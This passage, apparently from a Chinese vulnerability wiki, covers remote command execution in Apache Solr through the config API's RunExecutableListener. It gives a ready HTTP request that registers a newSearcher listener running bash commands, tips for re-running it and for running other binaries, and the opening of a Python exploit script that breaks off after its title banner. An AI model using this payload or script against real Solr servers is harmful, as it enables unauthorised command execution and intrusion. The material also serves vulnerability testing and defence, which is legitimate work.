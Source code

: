 不更改执行发生报错示例

![](/img/20210924015227121456.png)

进入docker容器查看发现命令已经执行

![](/img/20210924015227338620.png)

#### 使用 newSearcher

使用 newSearcher可以直接加载入缓存执行命令

请求包如下

```json
POST /solr/demo/config HTTP/1.1
Host: xxx.xxx.xxx.xxx:8983
Connection: close
Content-Type: application/json  
Content-Length: 198

{
  "add-listener" : {
    "event":"newSearcher",
    "name":"newlistener-2",
    "class":"solr.RunExecutableListener",
    "exe":"bash",
    "dir":"/bin/",
    "args":[
         "-c",
         "mkdir /tmp/vuln",
    ]
  }
}
```

> [!NOTE]
>
> 注意点同上，也需要每次执行更改 "name":"newlistener-2" 的参数

![](/img/20210924015227522829.png)

成功执行了创建文件的命令

![](/img/20210924015227784116.png)

#### 关于

如果想要执行其他命令,则需要命令的的位置，例如执行ping，则需要设置dir参数为 /usr/bin/ping 或者 /bin/ping，如果需要检测漏洞是否存在则可以使用 dnslog来检测



### 漏洞利用POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import requests
import sys
import json
import random

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
```